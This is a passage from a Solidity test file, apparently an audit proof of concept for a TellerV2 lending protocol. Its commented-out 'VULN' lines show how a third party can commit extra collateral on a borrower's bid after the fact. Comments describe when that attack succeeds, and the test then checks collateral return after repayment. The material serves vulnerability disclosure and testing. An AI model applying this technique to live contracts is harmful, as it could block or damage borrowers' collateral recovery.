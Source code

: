 ```solidity

        uint256 escrowBalance = wethMock.balanceOf(escrowAddress);
        assertEq(collateralAmount, escrowBalance, "Collateral was not stored");

        console.log("Before Vul: ");
        console.log("Weth: ", wethMock.balanceOf(address(borrower)));
        console.log("Dai: ", daiMock.balanceOf(address(borrower)));
        console.log("Escrow Weth Balance: ", escrowBalance);
        
        // --------------------------------------------------------------------
        
        // VULN - anyone can still add collateral on behalf of the borrower
        // uncomment this to test vulnerability
       //  info._amount = collateralAmount*100;

        // If the token of new collateral is different with every token in the previous bid, the attack works.
        // However, to make this new collateral be committed successfully, borrower should have this amount of token.
        // Therefore, the attacker should send this amount of token before attack.
        // uncomment the next line to test CASE 2:
        // info._collateralAddress = address(daiMock);
        
        // If the token of new collateral is same with one in the previous bid, the attack does not work
        // because the escrow holds one collateral per one token.
         // uncomment the next line to test CASE 1:
        // info._collateralAddress = address(wethMock);
        
        // uncomment this to test vuln
        // collateralManager.commitCollateral(bidId, collateralInfo);
        
        // --------------------------------------------------------------------

        // repay loan
        uint256 borrowerBalanceBefore = wethMock.balanceOf(address(borrower));
        console.log("\nBefore repaying: ");
        console.log("Borrower weth: ", borrowerBalanceBefore);
        console.log("Borrower dai: ", daiMock.balanceOf(address(borrower)));
        Payment memory amountOwed = tellerV2.calculateAmountOwed(bidId);
        borrower.addAllowance(
            address(daiMock),
            address(tellerV2),
            amountOwed.principal + amountOwed.interest
        );
        borrower.repayLoanFull(bidId);

        // Check borrower balance for collateral
        uint256 borrowerBalanceAfter = wethMock.balanceOf(address(borrower));
        console.log("\nAfter repaying: ");
        console.log("Borrower weth: ", borrowerBalanceAfter);
        console.log("Borrower dai: ", daiMock.balanceOf(address(borrower)));
        assertEq(
            collateralAmount,
            borrowerBalanceAfter - borrowerBalanceBefore,
            "Collateral was not sent to borrower after repayment"
        );
    }

}

contract TellerV2User is User {
    WethMock public immutable wethMock;
```
